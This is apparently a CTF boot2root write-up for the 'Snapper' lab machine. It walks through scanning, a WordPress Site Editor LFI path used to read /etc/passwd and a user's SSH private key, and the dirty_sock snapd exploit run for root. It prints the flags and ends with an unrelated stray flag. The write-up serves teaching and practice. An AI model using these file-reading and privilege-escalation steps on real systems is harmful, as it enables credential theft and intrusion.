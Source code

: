 ```yaml
---
layout: post
title: 217 Snapper - uad360
author: devploit
item_image: https://i.imgur.com/zOPzzBc.png
tags: ctf uad360 boot2root lfi wordpress snap
---
```


### Challenge:

**Level:** Easy-Medium

**Description:**

>Get user and root flags.
>author: torombolo

### Write-up User:

We start by scanning the IP to get active services.

```
nmap -sV -Pn -T5 192.168.105.111
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-14 09:15 BST
Nmap scan report for 192.168.105.111
Host is up (0.00041s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 52:54:00:A8:CA:93 (QEMU virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
```

If we enum the web we will see interesting paths. The most prominent is the wordpress installed.

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
**/blog (Status: 301)**
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
```

The most logical thing is to pass a first scan with wpscan, which will show us a LFI (local file inclusion) vulnerability.

```
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9044
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - http://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

Basically, the vulnerability explains that by visiting a specific path we can list computer files. The path in question is: http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=<file_to_list>. We will do the PoC with /etc/passwd.

![Branching](https://i.imgur.com/Gn0nTWm.png)

**It works!**

Now we can list the ssh private key of one of the users to be able to connect to the machine.

* User: masterblaster
* Path: /home/masterblaster/.ssh/id_rsa

![Branching](https://i.imgur.com/biFPnNZ.png)

If we copy the rsa key to our machine and try to connect using it... (Remember to give 600 permissions to the file).

```
➜  ~ ssh masterblaster@192.168.105.111 -i .ssh/snapper
The authenticity of host '192.168.105.111 (192.168.105.111)' can't be established.
ECDSA key fingerprint is SHA256:95id/6gGifLj0lHnpKkICP9wAeECnGU/SHstsKBQ1Vo.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.105.111' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

Last login: Sat Jun  8 17:18:17 2019 from 192.168.1.110
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ ls
Desktop  Documents  Downloads  examples.desktop  flag.txt  Music  Pictures  Public  Templates  Videos
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ cat flag.txt
uad360{b2143fa23fcfb6145f1bc9cca80dcbab}
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ 
````

All right! We have user and the first flag

`User flag: uad360{b2143fa23fcfb6145f1bc9cca80dcbab}`

### Write-up Root:

To get the root flag, if we list enough we can see that the snap version is not the most recent (the name of the machine helps to realize).

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ snap --version
snap    2.35.5+18.10
snapd   2.35.5+18.10
series  16
ubuntu  18.10
kernel  4.18.0-20-generic
```

That particular version is vulnerable to local privilege escalation as we can see [here](https://www.exploit-db.com/exploits/46361). The instructions to follow for the exploitation are:

* Create an account at the https://login.ubuntu.com/.
* After confirming it, edit your profile and upload an SSH public key.
* Run the exploit specifying the private key associated with the public upload to the web.

As we have said, we created the account in the link and we will upload the ssh key to its corresponding section.

![Branching](https://i.imgur.com/IJAtcD6.png)

To not upload our personal ssh key for obvious reasons, we created a new one in a linux as we see here:

```
➜  /tmp ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/.ssh/snapper_root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/snapper_root.
Your public key has been saved in /root/.ssh/snapper_root.pub.
The key fingerprint is:
SHA256:hRkMNEgC26et0GnVyhmW0MPGzZDZdPNUs8MFlgYXcF0 root@kali
The key's randomart image is:
+---[RSA 2048]----+
|..o=o@=o+ ++O=..E|
| o oXo+o.B =o+.  |
|. ..*.. o o.+    |
| . O +   .   .   |
|. = =   S        |
| o .             |
|  .              |
|                 |
|                 |
+----[SHA256]-----+
```

We upload the generated public key. We pass the exploit and the private key to the vulnerable machine and launch it by specifying the key and the account mail.

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:/dev/shm$ python3 snapd.py -u sugomum@uber-mail.com -k snapper_root

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 1)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/bgsfawbofu;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Sending payload...
[+] Success! Enjoy your new account with sudo rights!
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

New release '19.04' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ id
uid=1001(r00tdevploit) gid=1001(r00tdevploit) groups=1001(r00tdevploit)
r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ sudo -s
root@masterblaster-Standard-PC-Q35-ICH9-2009:~# GGWP
```

*We got root shell!*

Finally we visit the path where the flag is.

```
root@masterblaster-Standard-PC-Q35-ICH9-2009:/root# cat flag.txt
uad360{fb9bf208b033aee53a16a5255b3b3039}
```
```

`Root Flag: uad360{fb9bf208b033aee53a16a5255b3b3039}`







`Flag: encryptCTF{!nj3c7!0n5_4r3_b4D}`
